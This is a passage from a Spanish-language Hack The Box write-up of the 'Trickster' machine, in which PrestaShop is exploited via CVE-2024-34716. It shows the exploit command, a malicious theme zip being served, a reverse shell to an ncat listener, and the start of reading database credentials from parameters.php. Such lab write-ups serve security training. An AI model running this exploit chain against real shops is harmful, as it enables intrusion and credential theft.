 ```console
+
+ini_set('memory_limit','256M');
+
+$finder = PhpCsFixer\Finder::create()->in([
+    __DIR__.'/src',
+    __DIR__.'/classes',
+    __DIR__.'/controllers',
+    __DIR__.'/tests',
+    __DIR__.'/tools/profiling',
+])->notPath([
+    'Unit/Resources/config/params.php',
+    'Unit/Resources/config/params_modified.php',
+]);
```

Buscando información en internet sobre la versión de **Prestashop**, encontramos la siguiente información sobre el *CVE-2024-34716* y un exploit:
- [https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-34716](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-34716)
- [https://github.com/aelmokhtar/CVE-2024-34716](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-34716)

## Explotación
Ejecutamos el exploit, esperamos unos segundos y lograremos acceso a la máquina:
```console
python3 exploit.py --url http://shop.trickster.htb --email adam@trickster.htb --local-ip 10.10.14.152 --admin-path admin634ewutrx1jgitlooaj
[X] Starting exploit with:
        Url: http://shop.trickster.htb
        Email: adam@trickster.htb
        Local IP: 10.10.14.152
        Admin Path: admin634ewutrx1jgitlooaj
[X] Ncat is now listening on port 12345. Press Ctrl+C to terminate.
Serving at http.Server on port 5000
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:12345
Ncat: Listening on 0.0.0.0:12345
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.10.11.34 - - [31/Jan/2025 19:00:58] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.10.11.34 - - [31/Jan/2025 19:01:03] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
Ncat: Connection from 10.10.11.34:58190.
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 18:01:14 up  4:53,  1 user,  load average: 0.38, 0.27, 0.29
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
james    pts/0    10.10.16.60      18:00   60.00s  0.03s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Leemos el fichero *parameters.php* y encontramos las credenciales de la base de datos de **Prestashop**:
```php
$ cat parameters.php
<?php return array (
  'parameters' => 
  array (
```